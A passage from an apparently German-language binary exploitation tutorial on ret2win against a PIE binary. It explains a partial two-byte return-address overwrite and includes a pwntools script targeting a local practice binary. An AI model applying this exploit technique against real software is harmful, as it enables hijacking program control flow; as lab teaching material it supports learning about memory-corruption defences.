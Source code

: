 ## Mit PIE

{% hint style="success" %}
Kompilieren Sie die Binärdatei **ohne das Argument `-no-pie`**
{% endhint %}

### Off-by-2

Ohne einen Leak kennen wir die genaue Adresse der Gewinnfunktion nicht, aber wir können den Offset der Funktion von der Binärdatei kennen und wissen, dass die Rücksprungadresse, die wir überschreiben, bereits auf eine nahe Adresse zeigt. Es ist möglich, den Offset zur Gewinnfunktion (**0x7d4**) in diesem Fall zu leaken und einfach diesen Offset zu verwenden:

<figure><img src="../../../.gitbook/assets/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
{% hint style="success" %}